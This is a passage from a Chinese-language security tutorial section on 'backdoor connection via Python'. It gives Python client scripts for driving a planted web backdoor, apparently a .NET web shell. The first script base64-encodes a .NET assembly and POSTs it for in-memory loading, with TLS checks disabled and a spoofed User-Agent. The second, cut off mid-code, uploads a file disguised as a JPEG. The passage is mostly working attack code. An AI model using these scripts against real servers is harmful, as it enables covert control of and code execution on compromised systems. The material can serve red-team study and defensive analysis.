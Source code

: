 ## 0x04 通过Python代码实现后门连接
---

相比于C Sharp，Python的代码更加简洁

### 1.内存加载.net程序集

发送POST请求，参数为`demodata`，内容为base64编码的字符串

完整代码如下：

```
import requests
import base64
import sys
import os
import urllib3
urllib3.disable_warnings()
import urllib.parse

def post(url,path):
    with open(path, 'rb') as file_obj:
        content = file_obj.read()
    data = base64.b64encode(content).decode('utf8')  
    body = {"demodata": data}
    postData = urllib.parse.urlencode(body).encode("utf-8")
    print(postData)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36xxxxx"
    } 

    response = requests.post(url, headers=headers, data=body, verify = False)
    print(response.text)
 
if __name__ == "__main__":
    if len(sys.argv)!=3:
        print('%s <url> <path>'%(sys.argv[0]))
        sys.exit(0)
    else:
        post(sys.argv[1],sys.argv[2])
```

### 2.文件写入

发送POST请求，上传文件

完整代码如下：

```
import requests
import base64
import sys
import os
import urllib3
urllib3.disable_warnings()
import urllib.parse

def post(url,path):
    with open(path, 'r') as file_obj:
        data = file_obj.read()  
    files = {'image_file':(path,data,'image/jpeg')};    
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36xxxxx"
```